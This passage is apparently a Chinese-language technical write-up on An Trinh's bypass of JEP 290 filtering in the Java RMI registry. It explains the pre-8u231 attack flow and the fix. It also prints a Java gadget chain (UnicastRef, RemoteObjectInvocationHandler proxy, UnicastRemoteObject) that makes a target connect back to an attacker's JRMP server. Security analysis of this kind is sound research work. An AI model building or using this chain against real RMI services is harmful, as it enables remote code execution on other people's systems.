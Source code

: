 ```java
                    return var1 != UID.class && var1 != VMID.class && var1 != Lease.class && (var1.getPackage() == null || !Throwable.class.isAssignableFrom(var1) || !"java.lang".equals(var1.getPackage().getName()) && !"java.rmi".equals(var1.getPackage().getName())) && var1 != StackTraceElement.class && var1 != ArrayList.class && var1 != Object.class && !var1.getName().equals("java.util.Collections$UnmodifiableList") && !var1.getName().equals("java.util.Collections$UnmodifiableCollection") && !var1.getName().equals("java.util.Collections$UnmodifiableRandomAccessList") && !var1.getName().equals("java.util.Collections$EmptyList") ? Status.REJECTED : Status.ALLOWED;
                }
            }
        }
    }
```

##### 绕过思路

在jdk8u141<=version<jdk<8u231下，我们能够使用的攻击方法是1.通过lookup发起请求，向register传递一个在JEP290白名单内的恶意对象，2.这个恶意对象反序列化时生成一个ref，3.随后利用这个ref反连到我们的恶意JRMP服务端，4.register作为JRMP客户端发起DGC的dirty请求恶意对象，5.恶意对象反序列化，自此攻击完成。让我们梳理一下jdk8u231是如何针对这样的攻击做修复的，在2、3步之间添加了一个异常检查，抛出异常时，消除我们反序列化生成的ref，使得无法发起dirty连接，在4、5步之间，在DGC层的dirty方法中增加了反序列化过滤器，防止恶意对象反序列化。

An Trinh的绕过方法仍然和jdk8u141<=version<jdk<8u231下的攻击类似，但是他解决了两个问题，以绕过新的修复。一，我们发送的第一个恶意对象仍然可以正常反序列化，但是新增的异常检查阻止了后续代码的配合，我们无法发起JRMP请求，那是否可以找到一条链在反序列化时直接发起请求，无需与后续代码配合；二，第一次反序列化的恶意对象目的是发起一个dirty请求，现在dirty方法中新增了反序列化过滤器，但是第二次反序列化的本质是JRMP协议层面的反序列化，dirty只是诸多发起JRMP请求的其中一处入口，是否可以找到其他入口绕过dirty中新增的反序列化过滤器呢？

##### 新的gadget链

```java
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);

//1.UnicastRef对象 -> RemoteObjectInvocationHandler
//obj是UnicastRef对象，先RemoteObjectInvocationHandler封装
RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) new UnicastRef(new LiveRef(id, te, false)));
//2. RemoteObjectInvocationHandler -> RMIServerSocketFactory接口
//RemoteObjectInvocationHandler通过动态代理封装转化成RMIServerSocketFactory
RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
    RMIServerSocketFactory.class.getClassLoader(),// classloader
    new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
    handler// RemoteObjectInvocationHandler
);
//通过反射机制破除构造方法的可见性性质，创建UnicastRemoteObject实例
Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
constructor.setAccessible(true);
UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
//3. RMIServerSocketFactory -> UnicastRemoteObject
//把RMIServerSocketFactory塞进UnicastRemoteObject实例中
setFieldValue(remoteObject, "ssf", serverSocketFactory);
```

这里整个反序列化链就不再分析，可以参考文章[Trinhs RMI 注册表旁路 |MOGWAI 实验室 (mogwailabs.de)](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)
